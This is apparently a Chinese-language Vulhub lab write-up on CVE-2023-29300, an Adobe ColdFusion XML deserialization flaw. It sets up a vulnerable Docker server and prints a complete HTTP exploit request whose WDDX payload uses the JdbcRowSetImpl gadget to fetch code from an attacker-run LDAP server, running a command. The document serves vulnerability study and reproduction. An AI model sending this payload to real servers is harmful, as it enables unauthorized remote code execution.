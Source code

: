 # Adobe ColdFusion XML 反序列化命令执行漏洞（CVE-2023-29300）

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion在2018.0.16、2021.0.6、2023.0.0.330468版本及以前，存在一处XML反序列化漏洞。攻击者可以利用该漏洞调用Java中任意setter方法，最终执行任意命令。

参考链接：

- <https://blog.projectdiscovery.io/adobe-coldfusion-rce/>
- <https://xz.aliyun.com/t/13413>

## 漏洞环境

启动一个Adobe ColdFusion 2018.0.15服务器：

```
docker compose up -d
```

等待一段时间后环境启动成功，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

## 漏洞复现

要利用这个漏洞，需要先找到一个可利用的setter方法作为Gadget。最常见的Gadget是利用`com.sun.rowset.JdbcRowSetImpl`来进行JNDI注入，并执行任意命令。

首先，启动一个恶意JNDI服务器，并加载`CommonsBeanutils1`作为内层反序列化Gadget。Github上有数个工具可以使用，比如<https://github.com/rebeyond/JNDInjector/releases>：

![](1.png)

然后，将恶意LDAP地址替换到如下请求中发送：

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://your.ldap.server/example</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

可见，`touch /tmp/success`已被成功执行：

![](2.png)
